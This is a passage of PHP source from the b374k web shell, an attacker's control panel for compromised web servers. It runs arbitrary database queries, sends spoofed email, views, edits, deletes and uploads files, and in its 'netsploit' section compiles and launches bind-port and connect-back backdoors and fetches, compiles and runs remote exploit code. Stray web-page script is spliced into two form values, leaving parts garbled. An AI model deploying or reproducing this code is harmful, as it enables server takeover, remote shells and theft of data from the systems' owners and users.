DROP TABLE IF EXISTS b374k_table;";
                $msg = "&lt;div style=\"width:99%;padding:0 10px;\"&gt;&lt;form action=\"?\" method=\"get\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input type=\"hidden\" name=\"x\" value=\"mysql\" /&gt; &lt;input type=\"hidden\" name=\"sqlhost\" value=\"" . $sqlhost . "\" /&gt; &lt;input type=\"hidden\" name=\"sqluser\" value=\"" . $sqluser . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlport\" value=\"" . $sqlport . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlpass\" value=\"" . $sqlpass . "\" /&gt; &lt;input type=\"hidden\" name=\"db\" value=\"" . $db . "\" /&gt; &lt;p&gt;&lt;textarea name=\"sqlquery\" class=\"output\" style=\"width:98%;height:80px;\"&gt;$query&lt;/textarea&gt;&lt;/p&gt; &lt;p&gt;&lt;input class=\"inputzbut\" style=\"width:80px;\" name=\"submitquery\" type=\"submit\" value=\"Go !\" /&gt;&lt;/p&gt; &lt;/form&gt;&lt;/div&gt; ";
                $tables = array();
                $msg.= "&lt;table class=\"explore\" style=\"width:99%;\"&gt;&lt;tr&gt;&lt;th&gt;available tables on " . $db . "&lt;/th&gt;&lt;/tr&gt;";
                $hasil = @mysql_list_tables($db, $con);
                while (list($table) = @mysql_fetch_row($hasil)) {
                    @array_push($tables, $table);
                }
                @sort($tables);
                foreach ($tables as $table) {
                    $msg.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $db . "&amp;table=" . $table . "\"&gt;$table&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";
                }
                $msg.= "&lt;/table&gt;";
            } elseif (isset($_GET['table']) && (!isset($_GET['sqlquery']))) {
                $db = $_GET['db'];
                $table = $_GET['table'];
                $query = "SELECT * FROM " . $db . "." . $table . " LIMIT 0,100;";
                $msgq = "&lt;div style=\"width:99%;padding:0 10px;\"&gt;&lt;form action=\"?\" method=\"get\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input type=\"hidden\" name=\"x\" value=\"mysql\" /&gt; &lt;input type=\"hidden\" name=\"sqlhost\" value=\"" . $sqlhost . "\" /&gt; &lt;input type=\"hidden\" name=\"sqluser\" value=\"" . $sqluser . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlport\" value=\"" . $sqlport . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlpass\" value=\"" . $sqlpass . "\" /&gt; &lt;input type=\"hidden\" name=\"db\" value=\"" . $db . "\" /&gt; &lt;input type=\"hidden\" name=\"table\" value=\"" . $table . "\" /&gt; &lt;p&gt;&lt;textarea name=\"sqlquery\" class=\"output\" style=\"width:98%;height:80px;\"&gt;" . $query . "&lt;/textarea&gt;&lt;/p&gt; &lt;p&gt;&lt;input class=\"inputzbut\" style=\"width:80px;\" name=\"submitquery\" type=\"submit\" value=\"Go !\" /&gt;&lt;/p&gt; &lt;/form&gt;&lt;/div&gt; ";
                $columns = array();
                $msg = "&lt;table class=\"explore\" style=\"width:99%;\"&gt;";
                $hasil = @mysql_query("SHOW FIELDS FROM " . $db . "." . $table);
                while (list($column) = @mysql_fetch_row($hasil)) {
                    $msg.= "&lt;th&gt;$column&lt;/th&gt;";
                    $kolum = $column;
                }
                $msg.= "&lt;/tr&gt;";
                $hasil = @mysql_query("SELECT count(*) FROM " . $db . "." . $table);
                list($total) = mysql_fetch_row($hasil);
                if (isset($_GET['z'])) $page = (int)$_GET['z'];
                else $page = 1;
                $pagenum = 100;
                $totpage = ceil($total / $pagenum);
                $start = (($page - 1) * $pagenum);
                $hasil = @mysql_query("SELECT * FROM " . $db . "." . $table . " LIMIT " . $start . "," . $pagenum);
                while ($datas = @mysql_fetch_assoc($hasil)) {
                    $msg.= "&lt;tr&gt;";
                    foreach ($datas as $data) {
                        if (trim($data) == "") $data = "&nbsp;";
                        $msg.= "&lt;td&gt;$data&lt;/td&gt;";
                    }
                    $msg.= "&lt;/tr&gt;";
                }
                $msg.= "&lt;/table&gt;";
                $head = "&lt;div style=\"padding:10px 0 0 6px;\"&gt; &lt;form action=\"?\" method=\"get\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input type=\"hidden\" name=\"x\" value=\"mysql\" /&gt; &lt;input type=\"hidden\" name=\"sqlhost\" value=\"" . $sqlhost . "\" /&gt; &lt;input type=\"hidden\" name=\"sqluser\" value=\"" . $sqluser . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlport\" value=\"" . $sqlport . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlpass\" value=\"" . $sqlpass . "\" /&gt; &lt;input type=\"hidden\" name=\"db\" value=\"" . $db . "\" /&gt; &lt;input type=\"hidden\" name=\"table\" value=\"" . $table . "\" /&gt; Page &lt;select class=\"inputz\" name=\"z\" onchange=\"this.form.submit();\"&gt;";
                for ($i = 1;$i &lt;= $totpage;$i++) {
                    $head.= "&lt;option value=\"" . $i . "\"&gt;" . $i . "&lt;/option&gt;";
                    if ($i == $_GET['z']) $head.= "&lt;option value=\"" . $i . "\" selected=\"selected\"&gt;" . $i . "&lt;/option&gt;";
                }
                $head.= "&lt;/select&gt;&lt;noscript&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" /&gt;&lt;/noscript&gt;&lt;/form&gt;&lt;/div&gt;";
                $msg = $msgq . $head . $msg;
            } elseif (isset($_GET['submitquery']) && ($_GET['sqlquery'] != "")) {
                $db = $_GET['db'];
                $query = magicboom($_GET['sqlquery']);
                $msg = "&lt;div style=\"width:99%;padding:0 10px;\"&gt;&lt;form action=\"?\" method=\"get\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input type=\"hidden\" name=\"x\" value=\"mysql\" /&gt; &lt;input type=\"hidden\" name=\"sqlhost\" value=\"" . $sqlhost . "\" /&gt; &lt;input type=\"hidden\" name=\"sqluser\" value=\"" . $sqluser . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlport\" value=\"" . $sqlport . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlpass\" value=\"" . $sqlpass . "\" /&gt; &lt;input type=\"hidden\" name=\"db\" value=\"" . $db . "\" /&gt; &lt;p&gt;&lt;textarea name=\"sqlquery\" class=\"output\" style=\"width:98%;height:80px;\"&gt;" . $query . "&lt;/textarea&gt;&lt;/p&gt; &lt;p&gt;&lt;input class=\"inputzbut\" style=\"width:80px;\" name=\"submitquery\" type=\"submit\" value=\"Go !\" /&gt;&lt;/p&gt; &lt;/form&gt;&lt;/div&gt; ";
                @mysql_select_db($db);
                $querys = explode(";", $query);
                foreach ($querys as $query) {
                    if (trim($query) != "") {
                        $hasil = mysql_query($query);
                        if ($hasil) {
                            $msg.= "&lt;p style=\"padding:0;margin:20px 6px 0 6px;\"&gt;" . $query . ";&nbsp;&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;[&lt;/span&gt; ok &lt;span class=\"gaya\"&gt;]&lt;/span&gt;&lt;/p&gt;";
                            $msg.= "&lt;table class=\"explore\" style=\"width:99%;\"&gt;&lt;tr&gt;";
                            for ($i = 0;$i &lt; @mysql_num_fields($hasil);$i++) $msg.= "&lt;th&gt;" . htmlspecialchars(@mysql_field_name($hasil, $i)) . "&lt;/th&gt;";
                            $msg.= "&lt;/tr&gt;";
                            for ($i = 0;$i &lt; @mysql_num_rows($hasil);$i++) {
                                $rows = @mysql_fetch_array($hasil);
                                $msg.= "&lt;tr&gt;";
                                for ($j = 0;$j &lt; @mysql_num_fields($hasil);$j++) {
                                    if ($rows[$j] == "") $dataz = "&nbsp;";
                                    else $dataz = $rows[$j];
                                    $msg.= "&lt;td&gt;" . $dataz . "&lt;/td&gt;";
                                }
                                $msg.= "&lt;/tr&gt;";
                            }
                            $msg.= "&lt;/table&gt;";
                        } else $msg.= "&lt;p style=\"padding:0;margin:20px 6px 0 6px;\"&gt;" . $query . ";&nbsp;&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;[&lt;/span&gt; error &lt;span class=\"gaya\"&gt;]&lt;/span&gt;&lt;/p&gt;";
                    }
                }
            } else {
                $query = "SHOW PROCESSLIST;
SHOW VARIABLES;
SHOW STATUS;";
                $msg = "&lt;div style=\"width:99%;padding:0 10px;\"&gt;&lt;form action=\"?\" method=\"get\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input type=\"hidden\" name=\"x\" value=\"mysql\" /&gt; &lt;input type=\"hidden\" name=\"sqlhost\" value=\"" . $sqlhost . "\" /&gt; &lt;input type=\"hidden\" name=\"sqluser\" value=\"" . $sqluser . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlport\" value=\"" . $sqlport . "\" /&gt; &lt;input type=\"hidden\" name=\"sqlpass\" value=\"" . $sqlpass . "\" /&gt; &lt;input type=\"hidden\" name=\"db\" value=\"" . $db . "\" /&gt; &lt;p&gt;&lt;textarea name=\"sqlquery\" class=\"output\" style=\"width:98%;height:80px;\"&gt;" . $query . "&lt;/textarea&gt;&lt;/p&gt; &lt;p&gt;&lt;input class=\"inputzbut\" style=\"width:80px;\" name=\"submitquery\" type=\"submit\" value=\"Go !\" /&gt;&lt;/p&gt; &lt;/form&gt;&lt;/div&gt; ";
                $dbs = array();
                $msg.= "&lt;table class=\"explore\" style=\"width:99%;\"&gt;&lt;tr&gt;&lt;th&gt;available databases&lt;/th&gt;&lt;/tr&gt;";
                $hasil = @mysql_list_dbs($con);
                while (list($db) = @mysql_fetch_row($hasil)) {
                    @array_push($dbs, $db);
                }
                @sort($dbs);
                foreach ($dbs as $db) {
                    $msg.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $db . "\"&gt;$db&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";
                }
                $msg.= "&lt;/table&gt;";
            }
            @mysql_close($con);
        } else $msg = "&lt;p style=\"text-align:center;\"&gt;cant connect to mysql server&lt;/p&gt;";
        echo $msg;
    } else { ?> &lt;form action="?" method="get"&gt; &lt;input type="hidden" name="y" value="<?php echo $pwd; ?>" /&gt; &lt;input type="hidden" name="x" value="mysql" /&gt; &lt;table class="tabnet" style="width:300px;"&gt; &lt;tr&gt;&lt;th colspan="2"&gt;Connect to mySQL server&lt;/th&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&nbsp;Host&lt;/td&gt;&lt;td&gt;&lt;input style="width:220px;" class="inputz" type="text" name="sqlhost" value="localhost" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&nbsp;Username&lt;/td&gt;&lt;td&gt;&lt;input style="width:220px;" class="inputz" type="text" name="sqluser" value="root" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&nbsp;Password&lt;/td&gt;&lt;td&gt;&lt;input style="width:220px;" class="inputz" type="text" name="sqlpass" value="password" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&nbsp;Port&lt;/td&gt;&lt;td&gt;&lt;input style="width:80px;" class="inputz" type="text" name="sqlport" value="3306" /&gt;&nbsp;&lt;input style="width:19%;" class="inputzbut" type="submit" value="Go !" name="submitsql" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/table&gt; &lt;/form&gt; <?php
    }
} elseif (isset($_GET['x']) && ($_GET['x'] == 'mail')) {
    if (isset($_POST['mail_send'])) {
        $mail_to = $_POST['mail_to'];
        $mail_from = $_POST['mail_from'];
        $mail_subject = $_POST['mail_subject'];
        $mail_content = magicboom($_POST['mail_content']);
        if (@mail($mail_to, $mail_subject, $mail_content, "FROM:$mail_from")) {
            $msg = "email sent to $mail_to";
        } else $msg = "send email failed";
    } ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=mail" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td&gt; &lt;textarea class="output" name="mail_content" id="cmd" style="height:340px;"&gt;Hey there, please patch me ASAP ;-p&lt;/textarea&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&lt;input class="inputz" style="width:20%;" type="text" value="admin@somesome.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
" name="mail_to" /&gt;&nbsp; mail to&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&lt;input class="inputz" style="width:20%;" type="text" value="b374k@fbi.gov
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
" name="mail_from" /&gt;&nbsp; from&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&lt;input class="inputz" style="width:20%;" type="text" value="patch me" name="mail_subject" /&gt;&nbsp; subject&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&lt;input style="width:19%;" class="inputzbut" type="submit" value="Go !" name="mail_send" /&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;tr&gt;&lt;td&gt;&nbsp;&nbsp;&nbsp;&nbsp;<?php echo $msg; ?>&lt;/td&gt;&lt;/tr&gt; &lt;/table&gt; &lt;/form&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'phpinfo')) {
    @ob_start();
    eval("phpinfo();");
    $buff = @ob_get_contents();
    @ob_end_clean();
    $awal = strpos($buff, "&lt;body&gt;") + 6;
    $akhir = strpos($buff, "&lt;/body&gt;");
    echo "&lt;div class=\"phpinfo\"&gt;" . substr($buff, $awal, $akhir - $awal) . "&lt;/div&gt;";
} elseif (isset($_GET['view']) && ($_GET['view'] != "")) {
    if (is_file($_GET['view'])) {
        if (!isset($file)) $file = magicboom($_GET['view']);
        if (!$win && $posix) {
            $name = @posix_getpwuid(@fileowner($file));
            $group = @posix_getgrgid(@filegroup($file));
            $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
        } else {
            $owner = $user;
        }
        $filn = basename($file);
        echo "&lt;table style=\"margin:6px 0 0 2px;line-height:20px;\"&gt; &lt;tr&gt;&lt;td&gt;Filename&lt;/td&gt;&lt;td&gt;&lt;span id=\"" . clearspace($filn) . "_link\"&gt;" . $file . "&lt;/span&gt; &lt;form action=\"?y=" . $pwd . "&amp;view=$file\" method=\"post\" id=\"" . clearspace($filn) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $filn . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $filn . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($filn) . "_link','" . clearspace($filn) . "_form');\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Size&lt;/td&gt;&lt;td&gt;" . ukuran($file) . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Permission&lt;/td&gt;&lt;td&gt;" . get_perms($file) . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Owner&lt;/td&gt;&lt;td&gt;" . $owner . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Create time&lt;/td&gt;&lt;td&gt;" . date("d-M-Y H:i", @filectime($file)) . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Last modified&lt;/td&gt;&lt;td&gt;" . date("d-M-Y H:i", @filemtime($file)) . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Last accessed&lt;/td&gt;&lt;td&gt;" . date("d-M-Y H:i", @fileatime($file)) . "&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Actions&lt;/td&gt;&lt;td&gt;&lt;a href=\"?y=$pwd&amp;edit=$file\"&gt;edit&lt;/a&gt; | &lt;a href=\"javascript:tukar('" . clearspace($filn) . "_link','" . clearspace($filn) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;delete=$file\"&gt;delete&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;dl=$file\"&gt;download&lt;/a&gt;&nbsp;(&lt;a href=\"?y=$pwd&amp;dlgzip=$file\"&gt;gzip&lt;/a&gt;)&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;View&lt;/td&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "&amp;view=" . $file . "\"&gt;text&lt;/a&gt; | &lt;a href=\"?y=" . $pwd . "&amp;view=" . $file . "&amp;type=code\"&gt;code&lt;/a&gt; | &lt;a href=\"?y=" . $pwd . "&amp;view=" . $file . "&amp;type=image\"&gt;image&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/table&gt; ";
        if (isset($_GET['type']) && ($_GET['type'] == 'image')) {
            echo "&lt;div style=\"text-align:center;margin:8px;\"&gt;&lt;img src=\"?y=" . $pwd . "&amp;img=" . $filn . "\"&gt;&lt;/div&gt;";
        } elseif (isset($_GET['type']) && ($_GET['type'] == 'code')) {
            echo "&lt;div class=\"viewfile\"&gt;";
            $file = wordwrap(@file_get_contents($file), "240", "
");
            @highlight_string($file);
            echo "&lt;/div&gt;";
        } else {
            echo "&lt;div class=\"viewfile\"&gt;";
            echo nl2br(htmlentities((@file_get_contents($file))));
            echo "&lt;/div&gt;";
        }
    } elseif (is_dir($_GET['view'])) {
        echo showdir($pwd, $prompt);
    }
} elseif (isset($_GET['edit']) && ($_GET['edit'] != "")) {
    if (isset($_POST['save'])) {
        $file = $_POST['saveas'];
        $content = magicboom($_POST['content']);
        if ($filez = @fopen($file, "w")) {
            $time = date("d-M-Y H:i", time());
            if (@fwrite($filez, $content)) $msg = "file saved &lt;span class=\"gaya\"&gt;@&lt;/span&gt; " . $time;
            else $msg = "failed to save";
            @fclose($filez);
        } else $msg = "permission denied";
    }
    if (!isset($file)) $file = $_GET['edit'];
    if ($filez = @fopen($file, "r")) {
        $content = "";
        while (!feof($filez)) {
            $content.= htmlentities(str_replace("''", "'", fgets($filez)));
        }
        @fclose($filez);
    } ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;edit=<?php echo $file; ?>" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td colspan="2"&gt; &lt;textarea class="output" name="content"&gt; <?php echo $content; ?> &lt;/textarea&gt; &lt;tr&gt;&lt;td colspan="2"&gt;Save as &lt;input onMouseOver="this.focus();" id="cmd" class="inputz" type="text" name="saveas" style="width:60%;" value="<?php echo $file; ?>" /&gt;&lt;input class="inputzbut" type="submit" value="Save !" name="save" style="width:12%;" /&gt; &nbsp;<?php echo $msg; ?>&lt;/td&gt;&lt;/tr&gt; &lt;/table&gt; &lt;/form&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'upload')) {
    if (isset($_POST['uploadcomp'])) {
        if (is_uploaded_file($_FILES['file']['tmp_name'])) {
            $path = magicboom($_POST['path']);
            $fname = $_FILES['file']['name'];
            $tmp_name = $_FILES['file']['tmp_name'];
            $pindah = $path . $fname;
            $stat = @move_uploaded_file($tmp_name, $pindah);
            if ($stat) {
                $msg = "file uploaded to $pindah";
            } else $msg = "failed to upload $fname";
        } else $msg = "failed to upload $fname";
    } elseif (isset($_POST['uploadurl'])) {
        $pilihan = trim($_POST['pilihan']);
        $wurl = trim($_POST['wurl']);
        $path = magicboom($_POST['path']);
        $namafile = download($pilihan, $wurl);
        $pindah = $path . $namafile;
        if (is_file($pindah)) {
            $msg = "file uploaded to $pindah";
        } else $msg = "failed to upload $namafile";
    } ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=upload" enctype="multipart/form-data" method="post"&gt; &lt;table class="tabnet" style="width:320px;padding:0 1px;"&gt; &lt;tr&gt;&lt;th colspan="2"&gt;Upload from computer&lt;/th&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td colspan="2"&gt;&lt;p style="text-align:center;"&gt;&lt;input style="color:#000000;" type="file" name="file" /&gt;&lt;input type="submit" name="uploadcomp" class="inputzbut" value="Go" style="width:80px;"&gt;&lt;/p&gt;&lt;/td&gt; &lt;tr&gt;&lt;td colspan="2"&gt;&lt;input type="text" class="inputz" style="width:99%;" name="path" value="<?php echo $pwd; ?>" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/tr&gt; &lt;/table&gt;&lt;/form&gt; &lt;table class="tabnet" style="width:320px;padding:0 1px;"&gt; &lt;tr&gt;&lt;th colspan="2"&gt;Upload from url&lt;/th&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td colspan="2"&gt;&lt;form method="post" style="margin:0;padding:0;" actions="?y=<?php echo $pwd; ?>&amp;x=upload"&gt; &lt;table&gt;&lt;tr&gt;&lt;td&gt;url&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="wurl" style="width:250px;" value="http://www.some-code/exploits.c"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td colspan="2"&gt;&lt;input type="text" class="inputz" style="width:99%;" name="path" value="<?php echo $pwd; ?>" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&lt;select size="1" class="inputz" name="pilihan"&gt; &lt;option value="wwget"&gt;wget&lt;/option&gt; &lt;option value="wlynx"&gt;lynx&lt;/option&gt; &lt;option value="wfread"&gt;fread&lt;/option&gt; &lt;option value="wfetch"&gt;fetch&lt;/option&gt; &lt;option value="wlinks"&gt;links&lt;/option&gt; &lt;option value="wget"&gt;GET&lt;/option&gt; &lt;option value="wcurl"&gt;curl&lt;/option&gt; &lt;/select&gt;&lt;/td&gt;&lt;td colspan="2"&gt;&lt;input type="submit" name="uploadurl" class="inputzbut" value="Go" style="width:246px;"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/td&gt; &lt;/tr&gt; &lt;/table&gt; &lt;div style="text-align:center;margin:2px;"&gt;<?php echo $msg; ?>&lt;/div&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'netsploit')) {
    if (isset($_POST['bind']) && !empty($_POST['port']) && !empty($_POST['bind_pass']) && ($_POST['use'] == 'C')) {
        $port = trim($_POST['port']);
        $passwrd = trim($_POST['bind_pass']);
        tulis("bdc.c", $port_bind_bd_c);
        exe("gcc -o bdc bdc.c");
        exe("chmod 777 bdc");
        @unlink("bdc.c");
        exe("./bdc " . $port . " " . $passwrd . " &");
        $scan = exe("ps aux");
        if (eregi("./bdc $por", $scan)) {
            $msg = "&lt;p&gt;Process found running, backdoor setup successfully.&lt;/p&gt;";
        } else {
            $msg = "&lt;p&gt;Process not found running, backdoor not setup successfully.&lt;/p&gt;";
        }
    } elseif (isset($_POST['bind']) && !empty($_POST['port']) && !empty($_POST['bind_pass']) && ($_POST['use'] == 'Perl')) {
        $port = trim($_POST['port']);
        $passwrd = trim($_POST['bind_pass']);
        tulis("bdp", $port_bind_bd_pl);
        exe("chmod 777 bdp");
        $p2 = which("perl");
        exe($p2 . " bdp " . $port . " &");
        $scan = exe("ps aux");
        if (eregi("$p2 bdp $port", $scan)) {
            $msg = "&lt;p&gt;Process found running, backdoor setup successfully.&lt;/p&gt;";
        } else {
            $msg = "&lt;p&gt;Process not found running, backdoor not setup successfully.&lt;/p&gt;";
        }
    } elseif (isset($_POST['backconn']) && !empty($_POST['backport']) && !empty($_POST['ip']) && ($_POST['use'] == 'C')) {
        $ip = trim($_POST['ip']);
        $port = trim($_POST['backport']);
        tulis("bcc.c", $back_connect_c);
        exe("gcc -o bcc bcc.c");
        exe("chmod 777 bcc");
        @unlink("bcc.c");
        exe("./bcc " . $ip . " " . $port . " &");
        $msg = "Now script try connect to " . $ip . " port " . $port . " ...";
    } elseif (isset($_POST['backconn']) && !empty($_POST['backport']) && !empty($_POST['ip']) && ($_POST['use'] == 'Perl')) {
        $ip = trim($_POST['ip']);
        $port = trim($_POST['backport']);
        tulis("bcp", $back_connect);
        exe("chmod +x bcp");
        $p2 = which("perl");
        exe($p2 . " bcp " . $ip . " " . $port . " &");
        $msg = "Now script try connect to " . $ip . " port " . $port . " ...";
    } elseif (isset($_POST['expcompile']) && !empty($_POST['wurl']) && !empty($_POST['wcmd'])) {
        $pilihan = trim($_POST['pilihan']);
        $wurl = trim($_POST['wurl']);
        $namafile = download($pilihan, $wurl);
        if (is_file($namafile)) {
            $msg = exe($wcmd);
        } else $msg = "error: file not found $namafile";
    } ?> &lt;table class="tabnet"&gt; &lt;tr&gt;&lt;th&gt;Port Binding&lt;/th&gt;&lt;th&gt;Connect Back&lt;/th&gt;&lt;th&gt;Load and Exploit&lt;/th&gt;&lt;/tr&gt; &lt;tr&gt; &lt;td&gt; &lt;table&gt; &lt;form method="post" actions="?y=<?php echo $pwd; ?>&amp;x=netsploit"&gt; &lt;tr&gt;&lt;td&gt;Port&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="port" size="26" value="<?php echo $bindport ?>"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Password&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="bind_pass" size="26" value="<?php echo $bindport_pass; ?>"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Use&lt;/td&gt;&lt;td style="text-align:justify"&gt;&lt;p&gt;&lt;select class="inputz" size="1" name="use"&gt;&lt;option value="Perl"&gt;Perl&lt;/option&gt;&lt;option value="C"&gt;C&lt;/option&gt;&lt;/select&gt; &lt;input class="inputzbut" type="submit" name="bind" value="Bind" style="width:120px"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/td&gt; &lt;td&gt; &lt;table&gt; &lt;form method="post" actions="?y=<?php echo $pwd; ?>&amp;x=netsploit"&gt; &lt;tr&gt;&lt;td&gt;IP&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="ip" size="26" value="<?php echo ((getenv('REMOTE_ADDR')) ? (getenv('REMOTE_ADDR')) : ("127.0.0.1")); ?>"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Port&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="backport" size="26" value="<?php echo $bindport; ?>"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;Use&lt;/td&gt;&lt;td style="text-align:justify"&gt;&lt;p&gt;&lt;select size="1" class="inputz" name="use"&gt;&lt;option value="Perl"&gt;Perl&lt;/option&gt;&lt;option value="C"&gt;C&lt;/option&gt;&lt;/select&gt; &lt;input type="submit" name="backconn" value="Connect" class="inputzbut" style="width:120px"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/td&gt; &lt;td&gt; &lt;table&gt; &lt;form method="post" actions="?y=<?php echo $pwd; ?>&amp;x=netsploit"&gt; &lt;tr&gt;&lt;td&gt;url&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="wurl" style="width:250px;" value="www.some-code/exploits.c"&gt;&lt;/td&gt;&lt;/tr&gt; &lt;tr&gt;&lt;td&gt;cmd&lt;/td&gt;&lt;td&gt;&lt;input class="inputz" type="text" name="wcmd" style="width:250px;" value="gcc -o exploits exploits.c;chmod +x exploits;./exploits;"&gt;&lt;/td&gt; &lt;/tr&gt; &lt;tr&gt;&lt;td&gt;&lt;select size="1" class="inputz" name="pilihan"&gt; &lt;option value="wwget"&gt;wget&lt;/option&gt; &lt;option value="wlynx"&gt;lynx&lt;/option&gt; &lt;option value="wfread"&gt;fread&lt;/option&gt; &lt;option value="wfetch"&gt;fetch&lt;/option&gt; &lt;option value="wlinks"&gt;links&lt;/option&gt; &lt;option value="wget"&gt;GET&lt;/option&gt; &lt;option value="wcurl"&gt;curl&lt;/option&gt; &lt;/select&gt;&lt;/td&gt;&lt;td colspan="2"&gt;&lt;input type="submit" name="expcompile" class="inputzbut" value="Go" style="width:246px;"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/td&gt; &lt;/tr&gt; &lt;/table&gt; &lt;div style="text-align:center;margin:2px;"&gt;<?php echo $msg; ?>&lt;/div&gt; <?php
